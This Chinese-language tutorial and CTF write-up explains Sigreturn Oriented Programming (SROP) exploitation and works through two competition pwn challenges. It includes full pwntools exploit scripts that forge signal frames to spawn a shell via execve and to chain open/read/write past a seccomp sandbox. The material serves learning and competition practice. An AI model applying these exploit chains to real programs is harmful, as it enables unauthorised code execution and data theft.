高级ROP之SROP利用

- - -

# 高级ROP之SROP利用

这次第六届安洵杯有两道和srop相关的题目，正好对所学的SROP知识做个总结

## 基础知识

SROP，全称为Sigreturn Oriented Programming，主要触发原理为`sigreturn`这个系统调用，这个系统调用一般是程序在发生 signal 的时候被间接地调用

### signal机制

来源于ctfwiki：[SROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop)

signal 机制是类 unix 系统中进程之间相互传递信息的一种方法。一般，我们也称其为软中断信号，或者软中断。比如说，进程之间可以通过系统调用 kill 来发送软中断信号。一般来说，信号机制常见的步骤如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231225000049-9b6d6d68-a275-1.png)

1.  内核向某个进程发送 signal 机制，该进程会被暂时挂起，进入内核态。
2.  内核会为该进程保存相应的上下文，**主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**。此时栈的结构如下图所示，我们称 ucontext 以及 siginfo 这一段为 Signal Frame。**需要注意的是，这一部分是在用户进程的地址空间的。**之后会跳转到注册过的 signal handler 中处理相应的 signal。因此，当 signal handler 执行完之后，就会执行 sigreturn 代码。
3.  signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 119(0x77)，64 位的系统调用号为 15(0xf)。

## 漏洞利用

看完原理之后我们可以发现，`sigreturn` 系统调用会将进程恢复为**之前"保存的**"，也就是从栈中pop回到各寄存器，在执行`sigreturn` 系统调用期间，我们对栈中的值是可以任意读写的，而且由于内核与信号处理程序无关， `signal` 对应的各个寄存器值并不会被记录，那么，只要我们能够劫持栈中的数据，伪造一个 `Signal Frame` ，那么就可以控制任意寄存器的值

### shell获取

当我们可以控制任意寄存器的值时，只要程序中的数据满足条件我们便可以利用SROP来获取shell

通过对ROP攻击的学习我们知道，获取shell实际上就是执行了系统调用 execve("/bin/sh",0,0)，那么有没有可能通过控制寄存器来执行这个系统调用？答案是肯定的。

获取shell需要满足以下条件：

-   栈溢出以控制栈的内容
-   能控制rax寄存器为`sigreturn` 系统调用函数的调用号
-   有syscall系统调用函数或者汇编代码
-   栈空间足够大

具体SROP操作如下

1.  通过栈溢出劫持返回地址，构造SROP
    
2.  控制rax寄存器为`sigreturn` 的系统调用号
    
3.  执行syscall进入`sigreturn` 系统调用
    
4.  控制栈布局，使`sigreturn` 系统调用结束后的pop指令能够准确控制各个寄存器成我们想要的值
    
    例如获取shell的各寄存器控制：
    
    rax —>59（execve的系统调用号）
    
    rdi —> '/bin/sh'
    
    rsi —> 0
    
    rdx —>0
    
    rip —> syscall
    
    此时再继续向下调用时就可以执行execve("/bin/sh",0,0)了
    

### SROP链调用

当然，SROP并不是只能够调用一次，只要栈布局合理并且知道一些关键数据，我们便可以执行一串SROP链

例如，当程序开启了沙箱保护时

我们需要利用open，read，write三次调用

便可进行如下构造

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224170909-18bc09a8-a23c-1.png)

这样通过对rsp的设置可以保证srop链依次进行调用

## 工具使用

pwntools集成了有关SROP链的构造函数 `SigreturnFrame()`

工具构造和利用如下：

```plain
frame = SigreturnFrame()
frame.rax = 
frame.rdi = 
frame.rsi = 
frame.rdx = 
frame.rcx = 
frame.rip = 
frame.rsp =
```

用与参与栈布局的构造

在payload构造中利用bytes(frame)包裹即可

## 一些容易踩的坑

在程序中有两种syscall：

一种是syscall函数，在ida中以以下类似汇编代码出现：

```plain
.text:00000000004013F7 48 8D 45 E0                   lea     rax, [rbp+var_20]
.text:00000000004013FB B9 18 00 00 00                mov     ecx, 18h
.text:0000000000401400 48 89 C2                      mov     rdx, rax
.text:0000000000401403 BE 01 00 00 00                mov     esi, 1
.text:0000000000401408 BF 01 00 00 00                mov     edi, 1                          
.text:000000000040140D B8 00 00 00 00                mov     eax, 0
.text:0000000000401412 E8 49 FC FF FF                call    _syscall
```

也能在ida中找到其plt表

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224170917-1dcd1b8a-a23c-1.png)

另一种是以syscall的机器码形式出现的：

```plain
.text:00000000004011DC 48 31 C0                      xor     rax, rax
.text:00000000004011DF 48 C7 C2 00 02 00 00          mov     rdx, 200h                       ; count
.text:00000000004011E6 48 8D 74 24 F0                lea     rsi, [rsp+buf]                  ; buf
.text:00000000004011EB 48 89 C7                      mov     rdi, rax                        ; fd
.text:00000000004011EE 0F 05                         syscall
```

一般以sys\_read、sys\_write等伪c代码形式出现

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224170923-20fedc94-a23c-1.png)

这两种syscall形式会导致构造的方式不同

具体在于以syscall函数形式出现的syscall

其调用过程如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224170946-2f18dac8-a23c-1.png)

由于syscall函数调用需要遵循寄存器传参条件，所以在syscall函数调用中会将寄存器重新赋值，那么在工具函数 `SigreturnFrame()` 构造时便需要根据传参规则改变调用规则

## 例题 1.2023江西省赛初赛pwn2

### ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  return sys_read(0, buf, 0x200uLL);
}
```

非常直白的一道题

给了对应的gadget

```plain
.text:0000000000401131                               ; __unwind {
.text:0000000000401131 F3 0F 1E FA                   endbr64
.text:0000000000401135 55                            push    rbp
.text:0000000000401136 48 89 E5                      mov     rbp, rsp
.text:0000000000401139 48 C7 C0 0F 00 00 00          mov     rax, 0Fh
.text:0000000000401140 C3
```

直接的SROP构造即可

### exp

```plain
from pwn import *
elf = ELF("./pwn")
io = remote('101.132.112.252',30573)
#io = process('./pwn')
context(log_level = 'debug', os = 'linux', arch = 'amd64')
def dbg():
    gdb.attach(io)
    pause()

syscall_ret=0x401127
ret=0x4000FE
data=0x404028
pop_rax=0x401139
#gdb.attach(io,'b 0x0000000004000FE')

sigframe = SigreturnFrame()
sigframe.rax = 0
sigframe.rdi = 0
sigframe.rdx = 0x400
sigframe.rsi = data
sigframe.rsp = data+8
sigframe.rip = syscall_ret

payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)#

io.send(payload)
#dbg()
sigframe1 = SigreturnFrame()
sigframe1.rax = 59
sigframe1.rdi = data
sigframe1.rsi = 0
sigframe1.rdx = 0
sigframe1.rsp = 0
sigframe1.rip = syscall_ret

payload1=b'/bin/sh\x00'+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe1)

io.sendline(payload1)

io.interactive()
```

### exp分析

```plain
payload=b'a'*0x10+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe)
```

因为程序中没有sh字符串，那么我们就需要构造一个read来写一段/bin/sh字符串到程序中，并在后面继续执行下一段srop链

然后rsp位置设置成了一个bss段的地址，实际上是产生了一个类似于栈迁移的效果，使rsp到对应位置继续向下执行代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171002-3849ecae-a23c-1.png)

```plain
payload1=b'/bin/sh\x00'+p64(pop_rax)+p64(syscall_ret)+bytes(sigframe1)
```

那么实际上data+8恰好就是输入后p64(poprax)的位置

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171010-3d1a21cc-a23c-1.png)

接着执行下去即可getshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171015-4049be34-a23c-1.png)

## 例题 2.第六届安洵杯网络安全挑战赛 pwn2

### ida

```plain
__int64 sub_40136E()
{
  char v1[10]; // [rsp+6h] [rbp-2Ah] BYREF
  _QWORD v2[4]; // [rsp+10h] [rbp-20h] BYREF

  v2[0] = 0x6F6E6B2075206F44LL;
  v2[1] = 0x6920746168772077LL;
  v2[2] = 0xA3F444955532073LL;
  strcpy(v1, "easyhack\n");
  syscall(1LL, 1LL, v1, 9LL);
  syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(1LL, 1LL, v2, 24LL);
  syscall(0LL, 0LL, v1, 58LL);
  return 0LL;
}
```

还开了沙箱

```plain
line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x07 0xffffffff  if (A != 0xffffffff) goto 0012
 0005: 0x15 0x05 0x00 0x00000000  if (A == read) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0011
 0007: 0x15 0x03 0x00 0x00000002  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x0000000f  if (A == rt_sigreturn) goto 0011
 0009: 0x15 0x01 0x00 0x0000005a  if (A == chmod) goto 0011
 0010: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

orw都有

而且两种syscall都有

```plain
.plt:0000000000401060 FF 25 6A 2F 00 00             jmp     cs:syscall_ptr
.plt:0000000000401060
.plt:0000000000401060                               _syscall endp
```

```plain
.text:0000000000401186 55                            push    rbp
.text:0000000000401187 48 89 E5                      mov     rbp, rsp
.text:000000000040118A 0F 05                         syscall
```

### 分析代码

```plain
syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(0LL, 0LL, v1, 58LL);
```

可以看到有两段输入，一段在bss段上，大小为0x1000，另一段在栈上，溢出了0x10字节

输入长度不够如何构造srop？

此时我们便可以用这个0x10字节溢出来实现栈迁移，将栈迁移到bss段上后第一段读入就可以实现一个非常大的数据读入，足够进行三段SROP链的构造了

程序中也给了rax的赋值

```plain
.text:000000000040118F 55                            push    rbp
.text:0000000000401190 48 89 E5                      mov     rbp, rsp
.text:0000000000401193 48 C7 C0 0F 00 00 00          mov     rax, 0Fh
.text:000000000040119A C3                            retn
```

### exp解析

```plain
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))
```

首先是一个经典0x10字节的栈迁移过程，不了解的师傅可以看看这篇文章：[栈迁移详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12189)

这里不多赘述

接下来就是SROP链的构造：

```plain
payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0
payload += p64(rax_15)+p64(syscall2)+bytes(frame)
```

三段式的构造，open，read，write，将flag字符串和垃圾数据放在一起构造栈溢出

然后就是rax—>15，syscall，frame

重点是rsp位置需要通过调试来确定运行地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171033-4b025d7c-a23c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171036-4ca2655a-a23c-1.png)

使rsp恰好落在下一段SROP链的起始点，一段接着一段执行

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171042-502729ae-a23c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171044-51d287f8-a23c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171047-53239c3c-a23c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231224171052-564638de-a23c-1.png)

完整exp：

```plain
from pwn import*
io = process('./chall2')
#io = remote('47.108.206.43',37272)
context.log_level='debug'
context(os='linux', arch='amd64')
elf = ELF('./chall2')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x40136e
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))


payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x404088
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

io.sendafter('easyhack\n',payload)

io.send('a')

io.interactive()
```
